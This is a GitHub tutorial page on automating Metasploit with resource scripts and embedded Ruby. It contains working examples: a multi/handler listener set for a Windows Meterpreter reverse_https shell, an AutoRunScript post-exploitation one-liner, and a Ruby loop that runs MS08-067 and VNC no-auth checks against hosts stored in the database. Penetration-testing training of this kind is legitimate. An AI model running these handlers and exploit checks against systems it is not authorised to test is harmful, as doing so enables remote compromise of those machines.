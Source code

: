 ## METASPLOIT RESOURCE FILES

<blockquote>Resource scripts provide an easy way for you to automate repetitive tasks in Metasploit. Conceptually, they're just like batch scripts. They contain a set of commands that are automatically and sequentially executed when you load the script in Metasploit. You can create a resource script by chaining together a series of Metasploit console commands and by directly embedding Ruby to do things like call APIs, interact with objects in the database, and iterate actions.</blockquote>

![pic](http://i68.tinypic.com/21ovkfm.jpg)

| article chapters | jump links | API examples |
|-------|---|---|
| how to run | [resource scripts (rc)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#how-to-run-resource-scripts) | msfconsole -r my_resource_file.rc |
| resource files | [resource files (examples)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#resource-files-examples) |  run migrate -n wininit.exe |
| post exploitation | [post exploitation (rc)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#post-exploitation) | self.run_single("use auxiliary/scanner/vnc/vnc_none_auth") |
| ERB scripting| [ERB scripting (ruby)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#erb-scripting-ruby) | <ruby>hosts = session.framework.datastore['RPATH'].split('/')[1..-5]</ruby> |

<br />

### Description:
<blockquote>The console (msfconsole or msf pro) supports basic automation using resource scripts. These scripts contain a set of console commands that are executed when the script loads. In addition to the basic console (core) commands, these scripts are also treated as ERB models. ERB is a way to embed Ruby code directly into a document. This allows you to call APIs that are not exposed through console commands and until you programmatically generate and return a list of commands based on your own logic. Resource scripts can be specified with the -r option for the Metasploit Console and runs automatically on startup if it exists. Resource scripts can also be run from the console prompt through the resource command (msf> resource file-to-run.rc)</blockquote>

<br />

## EXTERNAL LINKS

- [Rapid7 resource files](https://metasploit.help.rapid7.com/docs/resource-scripts)
- [INULBR metasploit-automatizacao](http://blog.inurl.com.br/2015/02/metasploit-automatizacao-resource-files_23.html#more)
- [Offensiveinfosec writing-resource-scripts](https://offensiveinfosec.wordpress.com/2012/04/08/writing-resource-scripts-for-the-metasploit-framework/)

---

<br /><br /><br />

##  HOW TO RUN RESOURCE SCRIPTS?

      msfconsole -r my_resource_file.rc
      msfconsole -r /root/my_resource_file.rc
      msf > resource /root/my_resource_file.rc
      meterpreter > resource /root/my_resource_file.rc

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

---

<br /><br /><br />

## RESOURCE FILES EXAMPLES
<blockquote>There are two ways to create a resource script, which are creating the script manually or using the makerc command. personally recommend the makerc command over manual scripting, since it eliminates typing errors. The makerc command saves all the previously issued commands in a file, which can be used with the resource command.</blockquote>

- **Create a resource file to display the version number of metasploit (manually)**`[bash prompt]`<br />

      touch my_resource_file.rc
      echo 'version' > my_resource_file.rc

    `[run]` msfconsole -r my_resource_file.rc

- **Create a resource file to display the version number of metasploit (makerc)**`[metasploit prompt]`<br />

      kali > msfconsole
      msf > version
      msf > makerc /root/my_resource_file.rc

    `[run]` msf > resource /root/my_resource_file.rc

<br /><br />

<blockquote>In the next example we are going to write one handler resource file</blockquote>

- **Create a resource file using bash terminal prompt (bash)**`[bash prompt]`<br />

      touch my_resource_file.rc
         echo 'use exploit/multi/handler' > my_resource_file.rc
         echo 'set PAYLOAD windows/meterpreter/reverse_https' >> my_resource_file.rc
         echo 'set LHOST 192.168.1.71' >> my_resource_file.rc
         echo 'set LPORT 666' >> my_resource_file.rc
         echo 'exploit' >> my_resource_file.rc

- **Create a resource file using the core command 'makerc'**`[metasploit prompt]`<br />
'maekerc will build a resource file with the settings enter in msfconsole'<br />

      kali > msfconsole
      msf > use exploit/multi/handler
      msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_https
      msf exploit(multi/handler) > set LHOST 192.168.1.71
      msf exploit(multi/handler) > set LPORT 666
      msf exploit(multi/handler) > exploit

      msf exploit(multi/handler) > makerc my_handler.rc

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

---

<br /><br /><br />

## POST EXPLOITATION

- **AutoRunScript**

      sudo msfconsole -x 'spool $IPATH/output/report.log; use exploit/multi/handler; set LHOST $lhost; set LPORT $lport; set PAYLOAD $paylo; set AutoRunScript multi_command -rc $IPATH/aux/$P0; exploit'

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

---

<br /><br /><br />

## ERB SCRIPTING (ruby)

- **erb scripting**

      <ruby>
      framework.db.hosts.each do |h|
         h.services.each do |serv|
 
         if serv.port == 445 and h.os_flavor =~/XP|.NET Server|2003/i
                next if (serv.port != 445)
                print_good("#{h.address} seems to be Windows #{h.os_flavor}...")
                self.run_single("use exploit/windows/smb/ms08_067_netapi")
                print_good("Running ms08_067_netapi check against #{h.address}")
                self.run_single("set RHOST #{h.address}")
                self.run_single("check")
   
         elsif serv.port == 5900 and h.os_name =~/Linux/i
                next if (serv.port != 5900)
                print_good("#{h.address} seems to be Linux #{h.os_flavor}...")
                self.run_single("use auxiliary/scanner/vnc/vnc_none_auth")
                print_good("Running VNC no auth check against #{h.os_flavor}")
                self.run_single("set RHOSTS #{h.address}")
                self.run_single("run")
 
         else
                print_error("#{h.address} does not have port 445/5900 open")
                return nil 
         end
       end
      end
      </ruby>

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

---

<br /><br /><br />



